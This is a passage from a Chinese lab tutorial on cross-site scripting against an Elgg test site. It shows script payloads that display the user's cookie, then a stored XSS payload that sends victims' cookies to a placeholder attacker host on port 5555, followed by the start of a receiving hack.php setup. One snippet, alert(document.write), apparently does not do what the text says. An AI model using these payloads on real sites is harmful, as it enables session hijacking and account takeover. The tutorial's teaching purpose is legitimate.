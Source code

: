 访问测试：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430792423590?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

### lab2 显示Cookie ##

弹框仅仅是为了验证是否存在xss漏洞，并没有什么利用价值，而JavaScript中可以用函数来获取cookie，接下来就是使用JavaScript获取cookie来进一步利用。

还是刚刚那个页面，只不过我们的javascript代码变成了

```
    &lt;script&gt;document.write(document.cookie);&lt;/script&gt;
```

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430792443019?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

访问测试：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430792515562?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

红色圆圈内就是该用户的cookie。

为了更直观我们将上面的javascript代码替换成：

```
	&lt;script&gt;alert(document.write);&lt;/script&gt;
```

效果如下：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430792536582?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

弹出的这些字符就是你当前登录用户的cookie。

### lab3 窃取受害者的Cookie ##

lab2的情况局限于获取自己的Cookie，当然我们不需要自己的Cookie，我们需要在不登陆的情况下，获取其他用户的Cookie，这样我们就可以使用cookie直接登录别人的账号。

要窃取别人的cookie，首先必须具备一个能接收cookie的环境，然后通过javascript代码把别人的cookie通过http请求发送到所搭的环境。

还是在profiles页面下编辑javascript代码

```
	&lt;script&gt;document.write(&#39;&lt;img src=http://attacker_IP_address:5555?c=&#39; +escape(document.cookie) + &#39;&gt; &#39;);&lt;/script&gt;
```

下面我们将来创造一个这样的环境。

step1：在网站目录下面创建一个hack.php的文件:

```
sudo vim /var/www/XSS/elgg/hack.php
```
hack.php文件的内容如下图所示。

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430792826756?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

step2：创建一个cookie.txt,用它来cookie。并且这个文件要有写入权限步骤如下图所示.
